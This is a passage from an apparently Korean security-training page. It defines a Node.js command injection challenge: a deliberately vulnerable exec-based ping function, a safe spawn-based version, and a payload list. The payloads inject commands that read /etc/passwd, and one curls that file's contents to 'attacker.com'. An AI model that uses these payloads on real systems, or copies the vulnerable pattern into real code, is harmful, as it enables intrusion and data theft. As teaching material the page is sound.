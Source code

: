 ```javascript
        }
    `
};
```

### 서버 사이드Node.js 취약점 모듈
```javascript
// js-challenges/nodejs-command-injection.js
const commandInjectionChallenge = {
    title: "Node.js Command Injection",
    description: "child_process 모듈을 통한 명령어 인젝션 취약점",
    
    vulnerableCode: `
        const { exec } = require('child_process');
        
        function pingServer(host) {
            // 취약한 코드: 사용자 입력을 직접 명령어에 사용
            exec('ping -c 1 ' + host, (error, stdout, stderr) => {
                if (error) {
                    console.error('Error:', error);
                    return;
                }
                console.log('Ping result:', stdout);
            });
        }
    `,
    
    payloads: [
        '127.0.0.1; cat /etc/passwd',
        '127.0.0.1 && whoami',
        '127.0.0.1 | ls -la',
        '127.0.0.1; curl http://attacker.com/steal?data=$(cat /etc/passwd)'
    ],
    
    secureCode: `
        const { spawn } = require('child_process');
        
        function pingServer(host) {
            // 안전한 코드: 인수를 배열로 분리
            const ping = spawn('ping', ['-c', '1', host]);
            
            ping.stdout.on('data', (data) => {
                console.log('Ping result:', data.toString());
            });
        }
    `
};
```

## 🎯 **4단계: 실시간 UI 통합**

